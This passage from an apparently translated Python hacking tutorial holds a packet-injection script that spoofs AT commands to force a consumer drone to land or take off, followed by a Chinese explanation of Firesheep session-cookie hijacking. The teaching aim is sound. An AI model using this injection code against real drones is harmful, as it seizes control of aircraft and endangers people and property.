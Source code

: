 ```py
        try:
            self.seq = int(raw.split(',')[0].split('=')[-1]) + 5
        except:
            self.seq = 0
    EMER = "290717952"
    def emergencyland(self):
        spoofSeq = self.seq + 100
        watch = 'AT*COMWDG=%i\r'%spoofSeq
        toCmd = 'AT*REF=%i,%s\r'% (spoofSeq + 1, EMER)
        self.injectCmd(watch)
        self.injectCmd(toCmd)

    def injectCmd(self, cmd):
        radio = dup.dupRadio(self.curPkt)
        dot11 = dup.dupDot11(self.curPkt)
        snap = dup.dupSNAP(self.curPkt)
        llc = dup.dupLLC(self.curPkt)
        ip = dup.dupIP(self.curPkt)
        udp = dup.dupUDP(self.curPkt)
        raw = Raw(load=cmd)
        injectPkt = radio / dot11 / llc / snap / ip / udp / raw
        sendp(injectPkt)
    def takeoff(self):
        spoofSeq = self.seq + 100
        watch = 'AT*COMWDG=%i\r'%spoofSeq
        toCmd = 'AT*REF=%i,%s\r'% (spoofSeq + 1, TAKEOFF)
        self.injectCmd(watch)
        self.injectCmd(toCmd)

def main():
    uavIntercept = interceptThread()
    uavIntercept.start()
    print('[*] Listening for UAV Traffic. Please WAIT...')
    while uavIntercept.foundUAV == False:
        pass
    while True:
        tmp = raw_input('[-] Press ENTER to Emergency Land UAV.')
        uavIntercept.emergencyland()
if __name__ == '__main__':
    main() 
```

## 检测 Firesheep

2010 年，Eric Butler 开发了一个改变游戏规则的工具，Firesheep。这个工具提供了简单的两个按钮接口用来远程窃取不知情用户的 Facebook，Google，Twitter 等社交网站上的账户。Eric 的 Firesheep 工具为了得到站点的 HTTP Cookies 被动的在无线网卡上监听。如果一个用户连接到不安全的网站也没有使用任何服务器控件如 HTTPS 来保护他的会话，那么攻击者能使用 Firesheep 拦截 cookies 并被重用。

Eric 提供了一个简单的界面用来建立处理特殊的具体的 cookie 来捕获重用。注意，下面的对 WordPress 的处理包含三个函数。首先`matchPacket()`通过查看正则表达式`wordpress_[0-9a-fA-F]{32}`来确认 cookie，如果函数匹配到了占则表达式，那么`processPacket()`抽取 WordPress 的`sessionID` cookie，最后`identifyUser()`函数解析登陆到 WordPress 的用户名，黑客使用这些信息来登陆用户的 WordPress。
